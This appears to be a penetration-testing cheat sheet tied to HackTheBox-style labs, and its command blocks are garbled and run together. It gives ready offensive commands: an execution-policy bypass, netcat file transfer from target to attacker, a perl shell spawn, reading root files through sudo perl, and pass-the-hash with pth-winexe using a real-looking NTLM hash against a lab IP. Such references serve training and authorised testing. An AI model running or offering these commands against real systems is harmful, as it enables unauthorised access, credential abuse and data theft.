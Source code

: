 # **Miscellaneous Commands**

**Compiling Exploits**

```
gcc -o exploit exploit.c#Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linuxi586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe​Cross compilingCompile Windows exploit in Linuxi686-w64-mingw32-gcc 18176.c -lws2_32 -o 18176.exe​Compile Python script to executablewine ~/.wine/drive_c/Python27/Scripts/pyinstaller.exe --onefile exploit.py
```

**Packet Inspection**

```
tcpdump tcp port 80 -w output.pcap -i eth0​
```

**Powershell bypass**

```
Powershell: powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1​
```

**Window Exploit Suggester**

```
 ./windows-exploit-suggester.py -d 2019-07-20-mssb.xls -i system.txt
```

**Finding Auxiliary**

```
 ls /usr/share/nmap/scripts/ | grep smb | grep vuln​
```

**Netcat**

```
From attacker to targetAt targetnc -lvp 6969 > blah.txtAt attacker (method 1)nc x.x.x.x 6969 < blah.txtAt attacker (method 2)cat blah.txt | nc x.x.x.x 6969
```

**Perl Exploit**

```
Perl Exploitperl —e 'exec "/bin/sh";'sudo perl -F: -lane 'print $F[0]' /root/root.txt
```

**Awk**

```
Remove duplicate lines:awk '!seen[$0]++' file
```

**Searchsploit**

```
searchsploit --overflow --exact --mirror 21234​ searchsploit --overflow --exact Gwolle
```

**Firewall Rule Enable**

```
firewall rule enableufw allow from victimip to any port 80,443 proto tcp​
```

**Wordlist Creation**

```
Wordlist creation:cewl -w cewl-forum.txt -e -a http://forum.bart.htb
```

**PASS the HASH**

```
​Pass the hash :pth-winexe -U jenkins/administrator //ip cmd.exepth-winexe -U jenkins/administrator%password //ip cmd.execrackmapexec​ pth-winexe --user=jeeves/administrator%aad3b435b51404e eaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 --system //10.10.10.63 cmd.exe​
```

**Share folder Windows to linux**

```
mount -t fuse.vmhgfs-fuse .host:/ /mnt/hgfs -o allow\_other
```